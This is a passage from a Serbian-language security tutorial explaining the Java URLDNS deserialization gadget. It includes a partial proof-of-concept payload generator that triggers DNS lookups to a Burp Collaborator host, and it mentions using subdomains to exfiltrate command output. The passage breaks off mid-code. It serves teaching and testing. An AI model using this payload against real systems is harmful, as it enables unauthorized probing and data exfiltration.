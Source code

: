 Kao što možete videti, kada se `URLObject` izvrši `.hashCode()`, poziva se `hashCode(this)`. Nastavak možete videti kod ove funkcije:

```java
protected int hashCode(URL u) {
int h = 0;

// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();

// Generate the host part.
InetAddress addr = getHostAddress(u);
[   ...   ]
```

Možete videti da se izvršava `getHostAddress` za domen, **pokrećući DNS upit**.

Stoga se ova klasa može **zloupotrebiti** kako bi se **pokrenuo** DNS upit kako bi se **pokazalo** da je **deserijalizacija** moguća, ili čak i za **eksfiltraciju informacija** (možete dodati kao poddomen izlaz izvršenja komande).

### Primer koda za URLDNS payload

Možete pronaći [kod za URLDNS payload iz ysoserial-a ovde](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java). Međutim, samo radi lakšeg razumevanja kako ga kodirati, kreirao sam svoj PoC (baziran na onom iz ysoserial-a):

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
public static void GeneratePayload(Object instance, String file)
throws Exception {
//Serialize the constructed payload and write it to the file
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
}
public static void payloadTest(String file) throws Exception {
//Read the written payload and deserialize it
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
Object obj = in.readObject();
System.out.println(obj);
in.close();
}

public static void main(final String[] args) throws Exception {
String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
HashMap ht = new HashMap(); // HashMap that will contain the URL
URLStreamHandler handler = new SilentURLStreamHandler();
URL u = new URL(null, url, handler); // URL to use as the Key
```